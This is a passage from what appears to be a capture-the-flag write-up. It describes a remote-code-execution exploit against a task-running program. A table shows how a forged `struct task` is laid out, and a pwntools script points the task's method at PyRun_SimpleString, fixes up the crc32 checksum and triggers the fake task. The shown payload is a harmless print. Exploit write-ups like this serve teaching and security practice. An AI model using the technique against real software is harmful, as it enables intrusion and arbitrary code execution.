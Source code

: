 Remember how `thread_run()` calls the task method:

```c
void *res = t->method(t->arg_count, t->args);
```

Mapping this to `struct task`:

| Offset | Name      | Payload contents                           |
| ------ | --------- | ------------------------------------------ |
| 0      | id        | (anything)                                 |
| 8      | arg_count | Address of payload Python code string      |
| 16     | args      | (anything)                                 |
| 24     | method    | Address of `PyRun_SimpleString` function   |
| 32     | callback  | 0 (we don't want callback)                 |
| 40     | checksum  | Calculated using `crc32()`                 |

## Code

All this combined:

```python
PY_RUN_SIMPLE_STRING=0x4b5844

python_payload_addr = debug("print('This works!')")

activate(ACTIVATION_CODE)
run(True, "simulate", "1")
time.sleep(0.5)

payload  = pwn.p64(0xCAFEBABECAFEBABE)
payload += pwn.p64(python_payload_addr)
payload += pwn.p64(0)
payload += pwn.p64(PY_RUN_SIMPLE_STRING)
payload += pwn.p64(0)
checksum = crc32(payload, rand4_local)
payload += pwn.p64(checksum)

fake_task_addr = debug(payload)

activate(b'01234567'+pwn.p64(fake_task_addr))
```

And indeed - this works! It got me the message on the console. &#128512;

# *What* Python payload?

With an open RCE it should be normally easy from here. But I actually struggled
a bit to get it right.

